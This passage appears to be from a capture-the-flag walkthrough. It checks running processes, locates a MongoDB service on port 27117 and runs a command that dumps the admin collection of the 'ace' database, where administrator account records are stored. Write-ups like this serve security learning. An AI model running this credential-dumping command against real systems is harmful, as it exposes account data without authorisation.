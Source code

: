 Let's check if it's running:

Type:

```
ps -aux
```

![search](./Screenshots/unifiedsearch.png)

It is.

Now, type:

```
ps -aux | grep mongo
```

![search](./Screenshots/unifiedsearch2.png)

Target system on port is `27117`.

We can now use another `payload` from `SprocketSecurity`:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![search](./Screenshots/unifiedsearch3.png)

